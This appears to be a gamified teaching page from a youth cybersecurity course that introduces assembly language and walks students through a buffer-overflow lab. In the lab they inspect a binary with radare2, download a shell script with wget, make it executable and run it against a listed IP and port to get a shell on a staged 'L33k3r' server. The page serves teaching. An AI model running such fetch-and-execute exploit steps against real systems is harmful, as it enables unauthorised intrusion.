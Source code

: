 # Welcome to the Final day of Cybersecurity week!

![My guy typing](https://i.insider.com/515583f1eab8ea9a5d00001b?width=1100&format=jpeg&auto=webp)

# Endgame

<div style="margin:auto; display:flex; flex-direction:column; height:500px; max-width:500px">
    <iframe border="0" src="https://crosswordlabs.com/embed/2020-06-24-165?clue_height=30" style="flex:1; width:100%; padding:5px 0px 0 5px; border:3px solid black; "></iframe>
    <a target="_blank" style="align-self:center; font-size:12px; color:black; padding-top:10px; text-decoration:none;text-align:center" href="https://crosswordlabs.com">Crossword Puzzle Maker</a>
</div>

<br> 

Today is the last day of Cybersecurity week. Alice and Bob are pleased with how far you have come in your learnings
and how you have helped the Cyber House in their epic battle against the L33k3rs.

Yesterday you helped the Cyber House achieve a major accomplishment. Alice and Bob, thanks to you, were able to obtain 
information on all member of the L33k3rs. As we speak, Cyber House agents are tracking these people down to put
an end to their l33king schemes

![L33k3rs info](https://udel.codes/cyber4/phishing/L33k3r_Database.png)'

Our battle against the L33k3rs is coming to a close, however there is still one thing left to do.

### The Nano Bots!

We still have to shut down the nano bots. The nano bots are still in the Global Dessert Vault sending recipes to the L33k3rs. In order to stop them, we need being to understand a very important programming language. **Assembly Language.**

# Assembly Language

![Assembly](https://y31uv4ra1.vo.llnwd.net/content/wp/tweaklibrary_com/uploads/2017/07/49561-assembly-language-1280x720.jpg)

Assembly Language is the original true low-level computer language with pure instructions that directly translate into machine code.

*To explain:*

- There are languages that are considered **High-Level Programming Langauges**, these languages include Python, Java, Javascript, Scratch, ect. These programming languages are then broken down to a **Lower-level Programing Language**

- **Low-Level Programming Languages**, like Assembly and Machine Code, communicate more directly with the computer. Meaning they are more closely related to the computer's core language, like binary. (1's and 0's)

*So why have High-Level Languages if they are just turned into a Low-Level Language?*

- This is because Low-Level Languages are difficult to use and harder to understand then High-Level Languages. High-Level Languages are much more easier to read, write, and maintain. If you think coding in general is hard, Assembly is that much harder. 

### Why do we need to know this?

We need to know what assembly does because it is going to help us take down the L33k3rs!

Alice and Bob need us to take control of a L33k3r server so we can destroy it from the inside out! This is called pwning. So we will be compromising another server to gain access, almost like how we used the File Upload Exploit to gain access to the Global Dessert Vault!

---

# Infiltrat the L33k3rs!

So, let go to the terminal we have been using the past couple of days:  <a href="http://157.230.203.138/term" target="_blank">TERMINAL</a>

First begin by listing all the files in the home directory
- `ls`

Next we will move into the secsoft directory
- `cd secsoft`

Now let us list the files in this directory
- `ls`

Let's read the bufover-2.c file. This is a c file contiang c code. This will generate 
- `cat bufover-2.c`

Now we will read the bufover-2 file. This file is the executable for the file we just read. Meaning it will run bufover-2.c.
- `cat bufover-2`

Let's run the executable
- `r2 -Ad bufover-2`

Now that our process is running, lets enter this for the input.
- `Vpp`

What you are seeing is the assembly code for the bufover-2.c file. You can navigate through the code by using the "j" and "k" keys.
To Exit out of this view, press q
- `q`

The program is asking us a few questions, lets answer them by pressing the enter key twice.
- `enter`
- `enter`

Next we are going to download some code made by Alice and Bob that will help us infiltrate the L33k3r server. 

The code below is a script we will run which will create a completely new Bash Terminal that will have control over their server!
- `wget https://gist.githubusercontent.com/AndyNovo/ce5ff5a1d4376343787c31332578e831/raw/f13ab425f4f338323eb7c1e8652aa04c7ad0ecb4/bash32.sh`

The command below will give the file we just downloaded exectuable permission.
- `chmod +x bash32.ch`

Now let's run out script to infiltrate the L33k3r Server!
- `./bash32.sh bufover-2 167.172.231.203 8888`

---

# We're In!

![Access Granted](https://ak.picdn.net/shutterstock/videos/33710788/thumb/5.jpg)

You have now sucessfully infiltrated the L33k3r server. Now look around using the terminal to try and find anything we can use to shutdown their system or to shut down the nanobots!

### Food for thought?

Maybe look for **kill codes**?
- `killcodes.txt`

### Once you find the Kill Code put it into <a href="http://learnification.fun" target="_blank">Learnification.fun!</a> 

# You did it!


